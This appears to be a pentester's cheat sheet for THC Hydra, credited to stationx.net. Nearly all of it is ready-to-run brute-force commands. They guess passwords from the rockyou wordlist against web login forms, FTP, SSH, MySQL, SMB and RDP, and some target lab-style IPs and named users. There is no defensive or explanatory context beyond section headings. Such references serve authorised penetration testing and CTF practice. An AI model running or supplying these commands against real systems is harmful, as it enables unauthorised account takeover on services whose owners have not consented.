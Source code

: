 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"

$ hydra -l admin -P /dir/passwd-list.txt http://example.com  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.12.183 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.4.149 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -l user-name -P /dir/passlist.txt <IP Address> ftp

$ hydra -L /dir/users.txt -P /dir/passlist.txt ftp://<IP_Address>

## SSH

$ hydra -l <username> -P <full path to passlist.txt> <IP Address Target> -t 4 ssh

$ hydra -L <full path to usernamelist.txt> -P <full path to passlist.txt> ssh://IP_Address:22

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t 4 ssh

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t 4 smb

## RDP

$ hydra -l <username> -P <full path to passlist.txt> <IP Address> rdp

$ hydra -L <full/path_to_usernamelist.txt> -P <full/path_to_passlist.txt> -t 4 -W 3 rdp://IP_Address:3389/

Fonte: https://www.stationx.net/how-to-use-hydra
